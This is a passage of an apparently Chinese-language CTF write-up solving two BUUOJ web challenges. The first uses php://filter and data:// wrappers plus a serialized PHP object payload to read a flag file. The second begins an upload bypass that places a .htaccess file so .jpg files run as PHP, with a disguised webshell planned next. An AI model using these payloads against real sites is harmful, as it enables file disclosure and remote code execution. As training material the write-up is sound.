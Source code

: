 
php://input 好像用不了, 先用 php://filter 读文件试试

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

useless.php

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

反序列化

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

右键查看得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241622090.png)

## [MRCTF2020]你传你🐎呢

文件上传

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241629766.png)

测试发现过滤了 php phtml 等后缀, 但是 .htaccess 能够上传

```html
<IfModule mime_module>
AddType application/x-httpd-php .jpg
</IfModule>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241629153.png)

思路就很明显了, 之后再传一个包含一句话的 jpg 就行

不过每次上传的路径都不一样...
